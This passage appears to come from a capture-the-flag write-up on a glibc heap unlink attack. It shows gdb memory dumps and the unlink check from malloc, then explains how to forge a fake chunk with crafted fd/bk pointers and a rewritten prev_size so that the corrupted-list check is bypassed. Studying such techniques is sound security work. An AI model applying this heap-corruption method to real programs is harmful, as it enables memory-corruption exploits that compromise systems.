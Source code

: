 ```bash
gdb-peda$ x/30gx 0x00603000+0xb70
0x603b70:    0x0000000000000000    0x0000000000000031
0x603b80:    0x0000000000000000    0x00007ffff7dd1b98
0x603b90:    0x0000000000000000    0x0000000000000000
0x603ba0:    0x0000000000000030    0x0000000000000fb0
0x603bb0:    0x0000647361647361    0x0000000000000000
0x603bc0:    0x0000000000000000    0x0000000000000000
0x603bd0:    0x0000000000000000    0x0000000000000000
0x603be0:    0x0000000000000000    0x0000000000000000
0x603bf0:    0x0000000000000000    0x0000000000000000
0x603c00:    0x0000000000000000    0x0000000000000000
0x603c10:    0x0000000000000000    0x0000000000000000
0x603c20:    0x0000000000000000    0x0000000000000000
0x603c30:    0x0000000000000000    0x0000000000000000
0x603c40:    0x0000000000000000    0x0000000000000000
0x603c50:    0x0000000000000000    0x0000000000000000
```
In the current situation if I free the 0xfb0 chunk, the 0x31 chunk and the 0xfb0 chunk will be merged, for this the the 0x31 chunk will be unlinked from the unsorted bin.

`p->FD->BK=BK`

`p->BK->FD=FD`

To do the unlink attack we have to pass the below check, where p is the pointer being unlinked
```c++
mchunkptr fd = p->fd;
mchunkptr bk = p->bk;

if (__builtin_expect (fd->bk != p || bk->fd != p, 0)) 
	malloc_printerr ("corrupted double-linked list");

fd->bk = bk;  // unlink attack
bk->fd = fd;
```
To pass the check, we just need an address pointing to the heap chunk. This is gifted to us with the structure in bss. 0x6020d0 already points to 0x603b80 this case. But the chunk in unsorted bin is 0x603b70, so we can't use bss address to do an unlink attack with the 0x31 chunk. 

When free is called upon the 0xfb0 chunk, the prev\_inuse bit is checked to see if the above chunk is free or not, if it is free the prev\_size is subtracted to get to the above chunk.

Create a fake chunk of 0x21 at 0x603b80 and overwrite the prev\_size to 0x20, now we can set the fake fd and bk such that the security checks are bypassed.

```bash
gdb-peda$ x/30gx 0x00603000+0x620
0x603620:    0x0000000000000000    0x0000000000000031
0x603630:    0x0000000000000000    0x0000000000000021
0x603640:    0x00000000006020b8    0x00000000006020c0
0x603650:    0x0000000000000020    0x0000000000000fb0
0x603660:    0x0000647361647361    0x0000000000000000
0x603670:    0x0000000000000000    0x0000000000000000
0x603680:    0x0000000000000000    0x0000000000000000
0x603690:    0x0000000000000000    0x0000000000000000
```
